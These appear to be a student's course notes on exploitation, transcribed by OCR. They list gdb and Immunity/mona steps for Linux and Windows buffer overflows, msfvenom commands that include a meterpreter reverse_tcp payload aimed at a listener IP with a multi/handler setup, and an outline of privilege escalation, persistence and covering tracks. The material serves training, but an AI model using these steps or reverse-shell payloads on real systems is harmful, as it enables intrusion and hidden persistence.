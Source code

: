 

commands 
-----------------
gdb ./<file> 
info functions 
pdisass <function i want> 
run it with the non repeating string 
evn - gdb ./func (finds what the memory addresses will be) 
unset env LINES
unset env COLUMNS
run (crash the program) 
info proc map
find /b <after the heap>, <before the stack> 0xff, 0xe4 
put the memories into the script and conver to big endian 
msfvenom -p linux/x86/exec CMD=whoami -b '\x00' -f python  (payload) 
1) if it wants user input: <program> <<<$(./mybuff.py)  if not then <program> $(./mybuff.py)
                                  (send the output as a variable)

---------------------------------------------------------------------------------------------
day 6) windows


use string length 2500

steps 
-------------
start immunity bugger 
switch to running 
run the script 
get the EIP 
go to buffer overflow pattern and get the offset 
put it in script 
!mona modules (in the bottom) find no priv .dll
type this !mona jmp -r esp -m "<the dll>" 
convert address to big endian 
make payload :  msfvenom -p windows/meterpreter/reverse_tcp lhost=10.50.41.112 lport=4444 -b "\x00" -f python 
tunnel to the box connected to the secure server port 
set the script port to: 127.0.0.1:<the tunnel port>
msfconsole: use multi/handler set payload to what we used, set lhost to 0.0.0.0 and lport to the one we used, run 
run the script 

-------------------------------------------------------------------------------------------------------------------------------------------------------

Day 7) 

Linux privlage exploitation
------------------------------

privilage esclation, persistence, and covering your tracks 
- adding and hijacking accounts
- boot process
- cron job (Important for test)
- ssh keys
